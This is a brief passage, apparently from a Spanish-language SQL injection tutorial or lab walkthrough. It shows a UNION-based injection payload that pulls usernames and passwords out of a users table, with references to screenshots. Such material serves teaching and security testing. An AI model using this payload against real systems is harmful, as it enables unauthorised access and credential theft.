 Pero si ejecutamos el siguiente comando podemos ver los usuarios y contraseñas abajo
```sql
' OR 1=1 UNION SELECT null,null,username,password FROM users#
```

<img src="./img/sqlinjection2.png" width="700">
